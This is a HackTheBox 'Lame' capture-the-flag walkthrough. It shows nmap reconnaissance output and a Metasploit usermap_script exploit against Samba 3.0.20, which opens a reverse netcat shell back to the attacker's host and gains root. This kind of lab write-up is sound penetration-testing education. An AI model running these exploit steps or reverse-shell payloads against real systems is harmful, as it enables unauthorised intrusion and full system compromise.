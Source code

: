 
# HackTheBox Lame Walkthrough

![](images/Untitled.png)
As usual, the first thing we run is an NMAP scan to see what ports are open on the target.

nmap -A -p- 10.10.10.3 -T4

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|\_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.8
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|\_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|\_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.23 (92%), Belkin N300 WAP (Linux 2.6.30) (92%), Control4 HC-300 home controller (92%), D-Link DAP-1522 WAP, or Xerox WorkCentre Pro 245 or 6556 printer (92%), Dell Integrated Remote Access Controller (iDRAC5) (92%), Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Citrix XenServer 5.5 (Linux 2.6.18) (92%), Linux 2.6.18 (ClarkConnect 4.3 Enterprise Edition) (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux\_kernel

Host script results:
|\_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account\_used: guest
|   authentication\_level: user
|   challenge\_response: supported
|\_  message\_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|\_  System time: 2022-06-12T12:49:09-04:00
|\_clock-skew: mean: 2h00m08s, deviation: 2h49m45s, median: 5s

I noticed an older SMB version running (Samba 3.0.20-Debian). Maybe there is an exploit we can leverage.

A quick google search and we have an exploit! [https://www.rapid7.com/db/modules/exploit/multi/samba/usermap\_script/](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/)

![](images/image.png)

We just need to run and configure Metasploit for the usermap\_script exploit.

msfconsole
msf6 > use exploit/multi/samba/usermap\_script 
\[\*\] No payload configured, defaulting to cmd/unix/reverse\_netcat
msf6 exploit(multi/samba/usermap\_script) > show targets

Exploit targets:

   Id  Name
   -- ----
   0   Automatic

msf6 exploit(multi/samba/usermap\_script) > show options

Module options (exploit/multi/samba/usermap\_script):

   Name    Current Setting  Required  Description
   ---- --------------- -------- -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-fra
                                      mework/wiki/Using-Metasploit
   RPORT   139              yes       The target port (TCP)

Payload options (cmd/unix/reverse\_netcat):

   Name   Current Setting  Required  Description
   ---- --------------- -------- -----------
   LHOST  0.0.0.0    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   -- ----
   0   Automatic

msf6 exploit(multi/samba/usermap\_script) > set rhosts 10.10.10.3
rhosts => 10.10.10.3
msf6 exploit(multi/samba/usermap\_script) > set lhost tun0
lhost => tun0
msf6 exploit(multi/samba/usermap\_script) > run

\[\*\] Started reverse TCP handler on 10.10.14.8:4444 
\[\*\] Command shell session 1 opened (10.10.14.8:4444 -> 10.10.10.3:39225) at 2022-06-12 12:59:48 -0400

whoami
root

And just like that, we're root!
